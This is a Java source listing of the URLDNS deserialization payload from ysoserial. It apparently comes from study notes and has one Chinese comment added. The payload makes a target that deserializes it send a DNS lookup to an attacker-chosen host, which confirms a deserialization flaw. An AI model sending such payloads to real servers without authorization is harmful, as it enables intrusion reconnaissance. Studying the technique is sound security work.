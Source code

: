 ```java
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                // Reflections是yso的一个工具类，用于反射修改对象的属性
                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```

